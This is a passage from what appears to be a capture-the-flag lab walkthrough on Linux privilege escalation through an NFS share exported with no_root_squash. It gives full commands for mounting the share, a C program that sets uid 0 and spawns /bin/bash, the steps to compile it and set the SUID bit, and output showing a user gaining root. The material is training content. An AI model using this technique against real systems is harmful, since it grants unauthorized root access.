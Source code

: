 Then, mount one of the `no_root_squash` shares on our machine and start building the executable. Write these commands as a root user:

```bash
mkdir tmp-on-attacker-machine
mount -o rw 10.10.129.69:/tmp /tmp/tmp-on-attacker-machine
```

Create an executable that will run `/bin/bash` on the target system.

**test.c** file:

```c
#include<unistd.h>
#include <stdlib.h>
int main()
{ setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the **test.c** file and set the SUID bits permission.

```bash
─$ sudo su
─# nano test.c
─# gcc -static test.c -o nfs -w
─# ls -l
total 20
-rwxr-xr-x 1 root root 16056 Jul 16 04:49 nfs
-rw-r--r-- 1 root root   113 Jul 16 04:48 test.c
─# chmod +s nfs
─# ls -l
-rwsr-sr-x 1 root root 16056 Jul 16 04:55 nfs

```

On the target machine:

```bash
$ cd /tmp
$ ls -l
-rwsr-sr-x 1 root root 16056 Jul 16 08:55 nfs
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ ./nfs
root@ip-10-10-129-69:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)

```

## Capstone Challenge

This task is to test your privilege escalation skill. You have been given SSH access to the Leonard machine. The task is to search for a privilege escalation vector.
